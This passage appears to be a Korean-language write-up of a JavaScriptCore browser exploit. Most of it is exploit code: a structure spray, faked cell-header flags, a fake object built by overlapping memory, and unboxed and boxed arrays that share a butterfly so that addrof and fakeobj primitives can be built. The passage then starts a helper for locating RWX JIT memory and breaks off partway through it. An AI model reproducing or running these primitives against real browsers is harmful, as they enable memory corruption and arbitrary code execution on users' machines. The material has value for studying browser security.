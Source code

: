 `structure_spray`배열 상황

    		buf = new ArrayBuffer(8);
    		u32 = new Uint32Array(buf);
    		f64 = new Float64Array(buf);
    
    		// to victim
        u32[0] = 0x200;
        u32[1] = 0x01082007 - 0x10000;
        var flags_double = f64[0];
    
        u32[1] = 0x01082009 - 0x10000;
        var flags_contiguous = f64[0];

flag를 만드는 부분. 

    var outer = {
        header: flags_contiguous, // cell
        butterfly: victim, // butterfly
    };
    
    var hax = stage1.fakeobj(stage1.addrof(outer) + 0x10);

`outer`를 이용해 위에서 `object overlapping`한 것과 똑같다.

    	  var unboxed = eval(`[${'13.37,'.repeat(unboxed_size)}]`);
        unboxed[0] = 4.2; // no CopyOnWrite
    
        var boxed = [{}];
    
    		hax[1] = unboxed;
        var shared_butterfly = f2i(victim[1]);
        //print(`shared butterfly @ ${hex(shared_butterfly)}`);
        hax[1] = boxed;
        victim[1] = i2f(shared_butterfly);
    
        outer.header = flags_double;

`overlapping`한 오브젝트를 조작해 `unboxed`와 `boxed butterfly`를 만들고, 같은 메모리를 가리키게 한 뒤 double형식으로 바꿔 `read` `write`를 편하게 할 수 있게끔 만들었다.

    addrof: function(victim) {
        boxed[0] = victim;
        return f2i(unboxed[0]);
    },
    
    fakeobj: function(addr) {
        unboxed[0] = i2f(addr);
        return boxed[0];
    },

그것을 이용한 `stage2`의 `read`, `write`

    function getJITFunction(rwx, silent) {
        if (silent == undefined) {
            silent = false;
        }
        
        var printFunc = print;
        if (silent) {
            printFunc = function (str) {};
        }
        
